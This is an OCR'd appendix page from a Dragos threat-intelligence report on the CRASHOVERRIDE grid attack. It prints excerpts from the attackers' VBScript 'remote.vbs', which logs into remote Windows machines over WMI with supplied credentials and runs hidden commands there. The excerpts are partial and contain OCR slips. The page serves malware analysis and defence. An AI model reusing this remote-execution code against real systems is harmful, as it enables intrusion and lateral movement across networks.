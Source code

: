 ©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 20 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 21 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

### APPENDIX B - Remote Execution and Survey Script

As the script is lengthy, the below are selections from the file "remote.vbs" to show the most relevant portions of the script:

```
On Error Resume Next
Set WshShell = WScript.CreateObject("WScript.Shell")
Set WshNetwork = WScript.CreateObject("WScript.Network")
Set FSO = WScript.CreateObject("Scripting.FileSystemObject")
Dim objSWbemLocator
Dim objSWbemServices
<BREAK>
Function RunRemoteProcess(Command)
 Set objStartup = objSWbemServices.Get("Win32 ProcessStartup")
 Set objConfiq = objStartup.SpawnInstance 
 objConfig.ShowWindow = 0
    Set objProcess = objSWbemServices.Get("Win32 Process")
 strCmd = "cmd.exe /c " & Command & " >> " & GetReportFile()
    intReturn = objProcess.Create(strCmd, Null, objConfig, intProcessID)
 If intReturn <> 0 Then
   Wscript.Echo "Process could not be created." & _
       vbNewLine & "Command line: " & strCmd &  
        vbNewLine & "Return value: " & intReturn
       RunRemoteProcess = 2
       Exit Function
 End If
 Set WaitProcesses = objSWbemServices.ExecNotificationQuery("Select * From
  InstanceDeletionEvent Within 1 Where TargetInstance ISA 'Win32_Process'")
 Do Until i = 1
       Set objLatestProcess = WaitProcesses.NextEvent
       If objLatestProcess.TargetInstance.ProcessID = intProcessID Then
       i = 1
       End If
 Loop 
 RunRemoteProcess = 0
End Function
<BREAK>
Function ConnectToServer(RemoteMachine, Username, Password)
 Set objSWbemLocator = CreateObject("WbemScripting.SWbemLocator")
    Set objSWbemServices = objSWbemLocator.ConnectServer(RemoteMachine,
"root\CIMV2", Username, Password)
   If Err.Number <> 0 Then
        Wscript.StdOut.Write "Error: " & Err.Description
       ConnectToServer = 1
```
©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 22 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 
